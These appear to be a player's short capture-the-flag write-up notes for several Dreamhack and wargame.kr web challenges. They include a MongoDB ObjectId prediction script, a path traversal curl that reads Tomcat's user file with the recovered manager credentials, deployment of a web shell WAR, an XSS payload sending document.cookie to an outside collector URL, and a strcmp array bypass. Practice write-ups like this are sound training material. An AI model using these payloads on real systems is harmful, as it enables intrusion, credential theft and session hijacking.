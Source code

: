 ## mongoboard

- for mongodb < 3.7 we were able to predict the id of the entity.

used this github repo [library to guess the id](https://github.com/andresriancho/mongo-objectid-predict)

```py
import requests

from mongo_objectid_predict import predict

for objectid in predict('62f8ccf86dc2cfb8293c7ece'):
    response = requests.get('http://host3.dreamhack.games:9758/api/board/%s' % objectid)
    print(response.text)
```

## Tomcat Manager

```docker
COPY ROOT.war         /usr/local/tomcat/webapps/ROOT.war
/usr/local/tomcat/webapps/file/index.jsp #from here 
COPY tomcat-users.xml /usr/local/tomcat/conf/tomcat-users.xml #to here
```

```bash
curl http://host3.dreamhack.games:22959/image.jsp?file=../../../conf/tomcat-users.xml
```

**creds** `tomcat:P2assw0rd_4_t0mC2tM2nag3r31337`

deploy this file [cmd.war](https://github.com/s5uraj/web-shell/blob/master/cmd.war)
this will create a remote webshell on `/cmd/cmd.jsp`

We then execute the following

```bash
ls -l /
/flag
```

gave me a hard time finding a working webhshell got to learn how to create my owns

## easy xss 2

**payload**
`<scscriptript>document.locatioonn=`<https://enaqn03f8rd7k.x.pipedream.net?cookie>=`+document.cookie;</scscriptript>`

## [wargame.kr] strcmp

Using the array to pass the strcmp.

## web-blog-1
